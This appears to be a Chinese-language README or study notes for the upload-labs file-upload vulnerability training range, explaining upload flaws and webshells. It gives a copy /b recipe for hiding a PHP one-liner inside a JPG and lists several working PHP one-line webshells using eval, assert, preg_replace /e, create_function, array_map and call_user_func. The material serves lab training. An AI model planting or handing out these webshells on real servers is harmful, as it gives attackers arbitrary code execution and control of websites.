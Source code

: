 图片马的制作：

1.一句话木马代码：<?php @eval($\_POST\['caidao'\]);?>

2.用快捷键“win+R”打开cmd，先进入到先前准备好的两个文件的存放路径，然后敲命令行：copy demo.jpg/b + yjh.php tpm.jpg

upload-labs是一个使用php语言编写的，专门收集渗透测试和CTF中遇到的各种上传漏洞的靶场。旨在帮助大家对上传漏洞有一个全面的了解。目前一共20关，每一关都包含着不同上传方式。

注意-
1.每一关没有固定的通关方法，大家不要自限思维！

2.本项目提供的writeup只是起一个参考作用，希望大家可以分享出自己的通关思路。

3.实在没有思路时，可以点击查看提示。

4.如果黑盒情况下，实在做不出，可以点击查看源码。

## 什么是文件上传漏洞

文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

## 什么是webshell

WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称之为一种网页后门。攻击者在入侵了一个网站后，通常会将这些asp或php后门文件与网站服务器web目录下正常的网页文件混在一起，然后使用浏览器来访问这些后门，得到一个命令执行环境，以达到控制网站服务器的目的（可以上传下载或者修改文件，操作数据库，执行任意命令等）。 WebShell后门隐蔽较性高，可以轻松穿越防火墙，访问WebShell时不会留下系统日志，只会在网站的web日志中留下一些数据提交记录

## 一句话木马

PHP马：

    ##PHP：
    <?php @eval($_POST['r00ts']);?> 
    <?php phpinfo();?>
    <?php @eval($_POST[cmd]);?>
    <?php @eval($_REQUEST[cmd]);?>
    <?php assert($_REQUEST[cmd]); ?>
    <?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
    <?php 
    //?cmd=phpinfo();
    $func =create_function('',$_REQUEST['cmd']);
    $func();
    ?>
    
    <?php
    //?func=system&cmd=whoami
    $func=$_GET['func'];
    $cmd=$_GET['cmd'];
    $array[0]=$cmd;
    $new_array=array_map($func,$array);
    //print_r($new_array);
    ?>
    
    <?php 
    //?cmd=phpinfo()
    @call_user_func(assert,$_GET['cmd']);
    ?>
    